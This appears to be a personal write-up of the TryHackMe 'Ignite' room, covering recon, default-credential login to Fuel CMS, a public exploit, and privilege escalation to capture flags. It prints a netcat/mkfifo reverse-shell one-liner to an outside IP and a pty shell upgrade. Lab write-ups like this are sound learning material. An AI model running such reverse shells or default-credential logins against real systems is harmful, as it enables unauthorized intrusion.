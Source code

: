 # TryHackMe Room: Ignite

# Date:
    06/13/2025

## Objective
A new startup has a few issues with their web server

## Recon:
Ok, basic recon is just doing an nmap scan of the target

```bash
nmap -sC -sV [target address]
```
I saw that port 80 was open, additionally, I saw that http-robots.txt
disallowed an entry /fuel/. 

So I placed the target ip address into my browser with the /fuel extension and I came accross a login page

I tried attempts of default admin passwords to get in. Username admin and password admin worked! 

But this doesn't help me find user.txt and root.txt

## Vulnerability research
Using the exploit db, I searched for exploits in fuel through this command
```bash
searchsploit fuel
```

found an exploit py file on the exploit db website. Replaced the ip address with the target and ran it. 

I then used netcat to reverse shell on in there. Heres an example:
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.1 1337 >/tmp/f

nc -nlvp 4444
```

Found the user.txt flag within the user files


## Escalate privileges

I searched the user data base for the root password

This command was used to upgrade the reverse shell so that i could use sudo
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

found root.txt in the root folder. 

